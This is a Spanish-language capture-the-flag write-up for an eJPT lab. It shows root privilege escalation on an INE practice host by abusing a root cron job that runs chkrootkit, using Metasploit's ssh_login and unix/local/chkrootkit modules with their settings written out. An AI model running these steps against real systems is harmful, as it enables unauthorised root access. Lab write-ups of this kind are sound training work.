

repository: scarlgyx/scarlgyx-cybersecurity · page: certs/ejpt/linux-post-exploitation/02-privilege-escalation-rootkit-scanner/index.html · generator: mkdocs

# Privilege Escalation - Rootkit Scanner

**Objective:** Escalate to the root user on the target machine and retrieve the flag!

![](../../../assets/img/Pasted_image_20260915164336.png)

Nos dan las credenciales para que nos conectemos por ssh

Vamos a logearnos en ssh con metasploit con el módulo **auxiliary/scanner/ssh/ssh_login** para poder a posteriori usar el módulo de post explotación de **Rootkit**
```bash
set username jackie
set password password
set rhosts demo.ine.local
```

![](../../../assets/img/Pasted_image_20260915165005.png)

Nos crea una sesión en la máquina

![](../../../assets/img/Pasted_image_20260915165127.png)

Consultamos los procesos

![](../../../assets/img/Pasted_image_20260915165406.png)

Vemos un proceso ejecutado por root **/bin/bash /bin/check-down**

Consultamos el proceso

![](../../../assets/img/Pasted_image_20260915165542.png)

Vemos que se ejecuta chrootkit cada minuto

```bash
background
```

Vamos a buscar un exploit con msfconsole
```bash
search rootkit
```

Usaremos *unix/local/chkrootkit*
```bash
set sessions 2
set lhost 192.129.84.2
```

Para el parámetro CHKROOTKIT tendremos que buscar el path hacie el binario **chkrootkit** en la máquina víctima

![](../../../assets/img/Pasted_image_20260915170546.png)

```bash
set chkrootkit /bin/chkrootkit
```

Ejecutamos el exploit

![](../../../assets/img/Pasted_image_20260915171205.png)

root

La flag está en /root/flag
